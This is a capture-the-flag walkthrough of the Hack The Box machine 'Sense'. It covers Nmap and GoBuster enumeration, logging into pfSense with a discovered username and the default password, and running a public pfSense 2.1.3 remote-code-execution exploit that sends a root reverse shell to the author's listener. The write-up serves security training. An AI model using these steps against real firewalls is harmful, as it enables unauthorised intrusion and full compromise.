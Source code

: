 # HTB - Sense

#### Ip: 10.10.10.60
#### Name: Sense
#### Rating: Easy

----------------------------------------------------------------------

![Sense.png](../assets/sense_assets/Sense.png)

### Enumeration

As always, lets kick things off by scanning all TCP ports with Nmap. I'll include the `--min-rate 10000` flag, just to speed the scan up a bit.

```text
┌──(ryan㉿kali)-[~/HTB/Sense]
└─$ sudo nmap -p- --min-rate 10000 10.10.10.60
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-03 11:15 CDT
Nmap scan report for 10.10.10.60
Host is up (0.078s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT    STATE SERVICE
80/tcp  open  http
443/tcp open  https

Nmap done: 1 IP address (1 host up) scanned in 13.59 seconds
```

Looks like we've just got HTTP/HTTPS ports open here. Lets further enumerate by adding on the `-sV` and `-sC` flags to enumerate versions and use basic Nmap scripts.

```text
┌──(ryan㉿kali)-[~/HTB/Sense]
└─$ sudo nmap -sC -sV -T4 10.10.10.60 -p 80,443  
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-03 11:19 CDT
Nmap scan report for 10.10.10.60
Host is up (0.063s latency).

PORT    STATE SERVICE    VERSION
80/tcp  open  http       lighttpd 1.4.35
|_http-title: Did not follow redirect to https://10.10.10.60/
|_http-server-header: lighttpd/1.4.35
443/tcp open  ssl/https?
| ssl-cert: Subject: commonName=Common Name (eg, YOUR name)/organizationName=CompanyName/stateOrProvinceName=Somewhere/countryName=US
| Not valid before: 2017-10-14T19:21:35
|_Not valid after:  2023-04-06T19:21:35
|_ssl-date: TLS randomness does not represent time

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.23 seconds
```

Based on the Nmap scan and confirming by navigating to the site, port 80 http redirects to https://10.10.10.60. From here we'll we're met with a pfSense login page:

![pfsense_login.png](../assets/sense_assets/pfsense_login.png)

pfSence is is an open source firewall software that is extremely common. From past history I know that the default credentials are admin:pfsense, and sometimes these aren't changed by admins. Unfortunately for us, it appears they've been changed. Looks like we'll need to enumerate further. 

After several directory busting scans, I wasn't coming up with anything juicy. At this point I'll usually just throw a hail Mary and toss the kitchen sink at it, hoping I uncover an interesting subdirectory to move forward with.

By including the `-x php,txt,html,zip` flags in GoBuster, I'm hoping to uncover something like /admin.php or something interesting like that.

```text
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u https://10.10.10.60 -k -x php,txt,html,zip
```

Here, I also need to use the `-k` flag to bypass the SSL certificate verification. 

After a long while I finally find something of value: https://10.10.10.60/system-users.txt

![system_users.png](../assets/sense_assets/system_users.png)

Nice! We now have a username, and knowing that the default password for pfSense is 'pfsense', we can login as Rohit.

Logging in we are greeted with an admin dashboard:

![pfsense_rohit.png](../assets/sense_assets/pfsense_rohit.png)

At this point lets take a look and see if we can identify any public exploits against this service. 

### Exploitation

There were so many options to choose from using Searchsploit, so I simply Googled pfsense 2.1.3 (Luckily for us one of the first bits of information in the admin dashboard is the installed version number) and found this exploit written in Python. https://www.exploit-db.com/exploits/43560

This appears to be a pretty straightforward script abusing a misconfiguration in 'status_rrd_graph_img.php' where we can upload a reverse shell back to our attacking machine. Looks like we only need to supply a few arguments before firing off the exploit:

![exploit_args.png](../assets/sense_assets/exploit_args.png)

Let's set up a netcat listener to catch a shell back on, and try the exploit out:

```text
┌──(ryan㉿kali)-[~/HTB/Sense]
└─$ python pfsense-2.1.3-rce.py --rhost 10.10.10.60 --lhost 10.10.14.9 --lport 443 --username rohit --password pfsense 
CSRF token obtained
Running exploit...
Exploit completed
```

And back at our netcat listener we've caught a shell back as root! 

![nc_shell.png](../assets/sense_assets/nc_shell.png)

Nice! Because we caught the shell with root permissions, there's no need for privilege escalation. Lets grab the two flags for this box:

![flags.png](../assets/sense_assets/flags.png)

Thanks for following along!

-Ryan

-------------------------------------------------------------------------------------
